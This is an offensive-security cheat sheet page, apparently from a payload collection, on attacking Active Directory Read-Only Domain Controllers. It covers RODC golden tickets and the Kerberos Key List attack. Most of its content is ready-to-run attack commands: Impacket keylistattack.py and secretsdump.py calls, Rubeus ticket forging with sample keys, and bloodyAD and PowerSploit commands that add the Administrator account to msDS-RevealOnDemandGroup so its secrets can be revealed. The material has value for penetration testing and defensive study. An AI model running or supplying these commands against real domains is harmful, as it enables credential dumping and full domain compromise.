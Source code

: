 # Active Directory - Read Only Domain Controller

RODCs are an alternative for Domain Controllers in less secure physical locations

- Contains a filtered copy of AD (LAPS and Bitlocker keys are excluded)
- Any user or group specified in the **managedBy** attribute of an RODC has local admin access to the RODC server

## RODC Golden Ticket

- You can forge an RODC golden ticket and present it to a writable Domain Controller only for principals listed in the RODC’s **msDS-RevealOnDemandGroup** attribute and not in the RODC’s **msDS-NeverRevealGroup** attribute

## RODC Key List Attack

**Requirements**:

- [Impacket PR #1210 - The Kerberos Key List Attack](https://github.com/SecureAuthCorp/impacket/pull/1210)
- **krbtgt** credentials of the RODC (-rodcKey)
- **ID of the krbtgt** account of the RODC (-rodcNo)

**Exploit**:

- using Impacket

  ```ps1
  # keylistattack.py using SAMR user enumeration without filtering (-full flag)
  keylistattack.py DOMAIN/user:password@host -rodcNo XXXXX -rodcKey XXXXXXXXXXXXXXXXXXXX -full

  # keylistattack.py defining a target username (-t flag)
  keylistattack.py -kdc server.domain.local -t user -rodcNo XXXXX -rodcKey XXXXXXXXXXXXXXXXXXXX LIST

  # secretsdump.py using the Kerberos Key List Attack option (-use-keylist)
  secretsdump.py DOMAIN/user:password@host -rodcNo XXXXX -rodcKey XXXXXXXXXXXXXXXXXXXX -use-keylist
  ```

- Using Rubeus

  ```ps1
  Rubeus.exe golden /rodcNumber:25078 /aes256:eacd894dd0d934e84de35860ce06a4fac591ca63c228ddc1c7a0ebbfa64c7545 /user:admin /id:1136 /domain:lab.local /sid:S-1-5-21-1437000690-1664695696-1586295871
  Rubeus.exe asktgs /enctype:aes256 /keyList /service:krbtgt/lab.local /dc:dc1.lab.local /ticket:doIFgzCC[...]wIBBxhYnM=
  ```

## RODC Computer Object

When you have one the following permissions to the RODC computer object: **GenericWrite**, **GenericAll**, **WriteDacl**, **Owns**, **WriteOwner**, **WriteProperty**.

- Add a domain admin account to the RODC's **msDS-RevealOnDemandGroup** attribute
    - Windows/Linux:

    ```ps1
    # Get original msDS-RevealOnDemandGroup values 
    bloodyAD --host 10.10.10.10 -d domain.local -u username -p pass123 get object 'RODC$' --attr msDS-RevealOnDemandGroup
    distinguishedName: CN=RODC,CN=Computers,DC=domain,DC=local
    msDS-RevealOnDemandGroup: CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local
    # Add the previous value plus the admin account
    bloodyAD --host 10.10.10.10 -d example.lab -u username -p pass123 set object 'RODC$' --attr msDS-RevealOnDemandGroup -v 'CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local' -v 'CN=Administrator,CN=Users,DC=domain,DC=local'
    ```

    - Windows only:

  ```ps1
  PowerSploit> Set-DomainObject -Identity RODC$ -Set @{'msDS-RevealOnDemandGroup'=@('CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local', 'CN=Administrator,CN=Users,DC=domain,DC=local')}
  ```

## References

- [Attacking Read-Only Domain Controllers (RODCs) to Own Active Directory - Sean Metcalf](https://adsecurity.org/?p=3592)
- [At the Edge of Tier Zero: The Curious Case of the RODC - Elad Shamir](https://posts.specterops.io/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc-ef5f1799ca06)
- [The Kerberos Key List Attack: The return of the Read Only Domain Controllers - Leandro Cuozzo](https://www.secureauth.com/blog/the-kerberos-key-list-attack-the-return-of-the-read-only-domain-controllers/)
